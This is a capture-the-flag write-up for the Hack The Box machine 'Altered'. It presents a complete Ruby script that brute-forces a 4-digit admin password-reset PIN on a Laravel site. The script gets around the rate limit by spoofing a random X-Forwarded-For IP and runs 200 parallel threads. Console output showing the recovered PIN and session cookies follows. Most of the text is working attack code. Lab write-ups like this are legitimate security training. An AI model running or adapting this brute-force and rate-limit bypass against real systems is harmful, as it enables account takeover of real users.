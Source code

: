 # Hack The Box. Machines. Altered

Machine write-up: https://7rocky.github.io/en/htb/altered

### `bf_pin.rb`

This script is used to perform a brute force attack on a 4-digit PIN to reset the password for user `admin`.

First of all, we need to make the necessary requests to arrive at the PIN form.

```ruby
res = Net::HTTP.get_response(URI("http://#{IP}/reset"))
token = res.body.match(/<input type="hidden" name="_token" value="(.*?)">/)[1]
cookie = get_cookie(res['Set-Cookie'])

res = Net::HTTP.post(URI("http://#{IP}/reset"), "_token=#{token}&name=#{NAME}", { 'Cookie' => cookie })
Cookie = get_cookie(res['Set-Cookie']).freeze

puts "[*] Using cookie: #{cookie}"
```

`get_cookie` is a method that takes the cookies from the response headers (`XSRF-TOKEN` and `laravel_session`) and removes the cookie parameters, so that they can be sent in the subsequent request headers:

```ruby
def get_cookie(set_cookie)
  xsrf = set_cookie.match(/(XSRF-TOKEN=.*?);/)[1]
  laravel = set_cookie.match(/(laravel_session=.*?);/)[1]
  "#{xsrf}; #{laravel}"
end
```

There is a method called `try_pin` which tests a given pin and checks if its valid or not:

```ruby
def try_pin(pin)
  data = "name=#{NAME}&pin=#{pin.to_s.rjust(4, '0')}"
  headers = { 'X-Forwarded-For' => rand_ip, 'Cookie' => Cookie }
  res = Net::HTTP.post(URI("http://#{IP}/api/resettoken"), data, headers)
  invalid = res.body.include?('Invalid')

  puts "\n[+] #{pin.to_s.rjust(4, '0')} is valid" unless invalid

  !invalid
end
```

There is a rate limir configured that can be bypassed using a random IP address on the `X-Forwarded-For` header. The method `rand_ip` returns this value:

```ruby
def rand_ip
  Array.new(4).map { SecureRandom.random_number(256) }.join('.')
end
```

Finally, we start `200` threads to perform the brute force attack in less time:

```ruby
max_threads = 200
threads = Array.new(max_threads)
tests = Array.new(max_threads)

pin = 0

while pin <= 9999
  print "[*] Trying from #{pin.to_s.rjust(4, '0')} to #{(pin + max_threads).to_s.rjust(4, '0')}...\r"

  (0...max_threads).each do |i|
    threads[i] = ->(tpin) { Thread.new { tests[i] = try_pin(tpin) } }.call(pin)
    pin += 1
  end

  threads.each(&:join)
  break if tests.any?
end
```

The process will take around three minutes. Once the PIN is found, we must take the cookie and use it in the browser:

```console
$ ruby bf_pin.rb
[*] Using cookie: XSRF-TOKEN=eyJpdiI6IkppemJMM2ozV01TeE5JbXFIbFBNc1E9PSIsInZhbHVlIjoiNks0K244K3Z1WU1HYVZjM3FsYjE5S05jMk8vejg0RUs0QjVRYkVrRFFMNjRKTE0xVUdYYUhJbyt3SkkwSU5lVVFyK1h5VmxlQUZqRjhsM1diMTRwbitmUm5PYUozN2M5VWRVRGtnWEZyd0FzUmZMTXhTbC80RWIzbmd6M1o4N04iLCJtYWMiOiJiMGQ3MGQ2YTc0ZmNkNzk4NzM1OWUzNTZhMmJjM2JiNzgxMmRmYWZjMjRmOTI2MDJkMDUwYWZiNWY1M2Q0MGJjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjZSOGdLVmdZd1J6ZVJabklBNFRmdUE9PSIsInZhbHVlIjoiaCtXaFpHcDlsaXFBN05Ea2ZvYjYrdUZtZWluUmhVM3BjaWl2TXhXVmpTZXlSYTkybXZUNTd2YkQzNzNIc0FxYlV3b2l3Q1d1dml5SFd4QzlWUFlYY0JLb3NLVE4yaHZ1N0FGZkpEUTYzdzdnRzl5TWpGeGgwaCs0S29pQVRUREEiLCJtYWMiOiIxNTNiYmZjYTVjYThlN2QwMTQ1MzU1OWNlNmJiYjNjMzUwNzYwNjgzOGVhZDdlZjg5NzdlODY5OGM0ZDdiNzBkIiwidGFnIjoiIn0%3D
[*] Trying from 7400 to 7600...
[+] 7409 is valid
```
